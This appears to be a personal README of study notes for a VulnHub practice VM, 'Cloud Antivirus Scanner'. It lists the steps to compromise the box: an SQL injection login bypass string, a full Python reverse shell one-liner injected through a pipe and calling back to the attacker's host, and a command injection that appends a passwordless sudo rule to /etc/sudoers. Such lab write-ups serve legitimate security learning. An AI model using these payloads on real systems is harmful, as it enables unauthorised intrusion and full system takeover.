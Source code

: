 # vulnhub.com-study-notes 
This my personal note that shows the important steps/codes for compromising vm boxes


----------------------------------------------------------------------------------------------------------------------------------------

**1.Cloud Antivirus Scanner**
VM link is https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/

The web with port 8080 can be discover via nikto, do an SQL injection to login the web portal, someone online did an brute force, and find a invite code  "password"  

```
"or"1"="1
```
This code means (NOTHING) or 1=1.  And since 1 does equal 1, a true statement, we bypass this process. Credit to sevenlayers.com 
Then open a port on your kali with nc, nc -lvp 6666, and load the python reverse shell payload, (x.x.x.x needs to replace with your kali host ip)

```
bash|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
msfvenom also has reverse_python module that we can use for access the terminal. 

You are login, but you are still not root yet. locate the file update_cloudav, execute 
```
./update_cloudav '|echo "scanner ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' 
```
It will complete with error, but it is ok, use "sudo su" to access to root.  Job Done! 


----------------------------------------------------------------------------------------------------------------------------------------



